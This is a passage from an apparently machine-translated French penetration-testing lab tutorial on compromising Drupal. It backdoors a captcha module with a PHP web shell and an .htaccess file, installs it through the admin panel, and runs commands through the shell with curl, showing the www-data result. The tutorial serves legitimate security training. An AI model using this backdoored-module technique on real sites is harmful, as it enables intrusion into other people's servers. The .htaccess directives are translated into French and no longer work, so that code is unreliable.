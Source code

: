 Ensuite, nous devons créer un fichier .htaccess pour nous donner accès au dossier. Ceci est nécessaire car Drupal refuse l'accès direct au dossier /modules.

Code : html

```
<IfModule mod_rewrite.c>
Moteur de réécriture activé
RéécrireBase /
</IfModule>

```

La configuration ci-dessus appliquera des règles pour le dossier / lorsque nous demanderons un fichier dans /modules. Copiez ces deux fichiers dans le dossier captcha et créez une archive.

```
dsgsec@htb[/htb]$ mv shell.php .htaccess captcha
dsgsec@htb[/htb]$ tar cvf captcha.tar.gz captcha/

captcha/
captcha/.travis.yml
captcha/README.md
captcha/captcha.api.php
captcha/captcha.inc
captcha/captcha.info.yml
captcha/captcha.install

<SNIP>

```

En supposant que nous ayons un accès administratif au site Web, cliquez sur `Gérer` puis `Étendre` dans la barre latérale. Ensuite, cliquez sur le bouton `+ Installer un nouveau module` et nous serons redirigés vers la page d'installation, telle que `http://drupal.inlanefreight.local/admin/modules/install` Parcourez l'archive Captcha dérobée et cliquez sur "Installer".

![](https://academy.hackthebox.com/storage/modules/113/module_installed.png)

Une fois l'installation réussie, accédez à `/modules/captcha/shell.php` pour exécuter les commandes.

```
dsgsec@htb[/htb]$ curl -s drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id

uid=33(www-data) gid=33(www-data) groupes=33(www-data)

```

* * * * *

Tirer parti des vulnérabilités connues
--------------------------------

Au fil des ans, le cœur de Drupal a souffert de quelques graves vulnérabilités d'exécution de code à distance, chacune appelée `Drupalgeddon`. Au moment de la rédaction de cet article, il existe 3 vulnérabilités Drupalgeddon.
